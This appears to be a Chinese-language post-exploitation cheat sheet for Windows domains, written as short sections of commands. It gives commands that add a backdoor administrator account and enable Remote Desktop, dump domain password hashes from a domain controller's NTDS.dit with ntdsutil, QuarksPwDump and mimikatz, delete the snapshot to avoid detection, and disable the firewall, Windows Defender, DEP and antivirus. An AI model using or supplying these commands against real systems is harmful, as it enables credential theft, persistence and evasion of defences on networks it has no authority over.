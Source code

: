 ![image3545](https://image.3001.net/images/20191022/1571757426_5daf1d72d86f0.png!small)





### 添加用户

```
net user ccreater Abc1234 /add
net localgroup administrators ccreater /add
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f

```



### 域控提取域用户hash

#### Ntdsutil

 ntdsutil.exe是域控制器自带的域数据库管理工具，从windows 2008就默认自带了 

```
Ntdsutil 
	snapshot—activate instance ntds
	create
	mount {guid}
copy 装载点\windows\NTDS\ntds.dit d:\ntds_save.dit
```

![image4044](http://www.xmrseo.com/content/uploadfile/201805/dad51527169954.jpg)

![image4122](http://www.xmrseo.com/content/uploadfile/201805/dad51527170055.jpg)

 最后执行 

```
unmount {guid}
delete {guid}
quit
```

 删除装载点即可，避免被发现 

接着上传工具QuarksPwDump到域控制器上，然后执行如下命令，成功提取用户hash

`QuarksPwDump --dump-hash-domain --ntds-file d:\ntds_save.dit`

####  mimikatz

`mimikatz log "privilege::debug" "lsadump::lsa /patch"`



### 关闭防火墙

```
netsh advfirewall set allprofiles state off#关闭防火墙
net stop windefend
netsh firewall set opmode mode=disable
bcdedit.exe /set{current} nx AlwaysOff#关闭DEP
meterpreter > run killav  关闭杀毒软件 
```
